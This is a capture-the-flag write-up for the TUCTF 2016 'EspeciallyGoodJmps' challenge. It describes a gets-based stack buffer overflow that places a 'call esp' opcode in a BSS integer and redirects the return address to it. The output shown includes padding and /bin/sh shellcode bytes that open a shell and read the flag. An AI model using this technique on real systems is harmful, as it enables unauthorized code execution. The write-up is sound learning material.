 # EspeciallyGoodJmps [75] -TUCTF 2016

First of all execute `file` command
```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x161ccbaf95a7d5b84a8298afab8fdeaeedd445c0, not stripped
```

and `checksec` 
```bash
$ ./checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		4	23e4f31a5a8801a554e1066e26eb34745786f4c4
```
So i expect that i have to do something on the stack.
The program is simple: reads a string with `gets` and an integer and check if it is odd. 

![Vuln](vuln.png)

We can easily do buffer overflow and execute out shellcode. But the tricky part is to get the address of the buffer due ASLR. So i look for any useful 
gadget in the binary but without luck. 

But the integer `meow` is stored in the `.BSS`

![Meow](meow.png)

 so i can store an instruction that turns the control flow to my shellcode! What about `call esp`? The opcode for `call esp` is `ff d4` so the integer to send is
 ```bash
 $ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xd4ff
54527
```

So we overwrite the return address with `0x804a048` in order to call our istruction.

The full exploit is available [here](exploit.py)! 

Let's PWN them!

```bash
$ python exploit.py 130.211.202.98 7575
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH�����������1�Ph//shh/bin�����°
    1�@̀, 54527 is an odd number!
ls
easy
flag.txt
cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```
